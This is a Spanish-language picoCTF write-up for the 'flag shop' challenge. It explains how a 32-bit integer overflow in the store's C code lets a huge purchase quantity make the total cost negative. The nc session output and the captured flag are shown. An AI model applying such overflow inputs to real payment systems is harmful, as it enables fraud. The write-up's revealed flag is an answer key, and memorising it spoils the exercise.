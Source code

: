 There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/253c4651d852ac6342752ff222cf2a83/store.c). Connect with `nc jupiter.challenges.picoctf.org 9745`.

Hints:
1. Two's compliment can do some weird things when numbers get really big!

## Solución 1:
De acuerdo a la pista revisamos el código de la tienda, el cual nos indica que los valores se guardan en  int's, lo cual en lenguaje C es equivalente a 32 bits, investigando encontré que esto se puede afectar al hacer que el valor agregado sea mayor al posible que pueden guardar, haciendo que el bit reservado para el signo pueda ser cambiado, por lo tanto al comprar una cantidad grande de banderas de costo 900, podemos hacer que el costo total sea negativo, lo cual en lugar de restar al balance, sumara una gran cantidad de créditos suficientes para comprar la flag verdadera.

El valor máximo que se puede almacenar en 32 bits es 2147483647, al dividir este valor en 900 que es el valor de una flag falsa, nos da como resultado 2,386,092.941, si queremos afectar el bit del signo, hay que ingresar un valor significativamente mayor para eso, yo lo hice con 2,386,100 lo cual fue suficiente y con esto obtengo creditos suficientes:
```
┌──(kali㉿kali)-[~/Documents/GS]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386100

The final cost is: -2147477296

Your current balance after transaction: 2147478396

Welcome to the flag exchange
We sell flags
```
Ahora, con los créditos suficientes, simplemente compro la flag real:
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}
```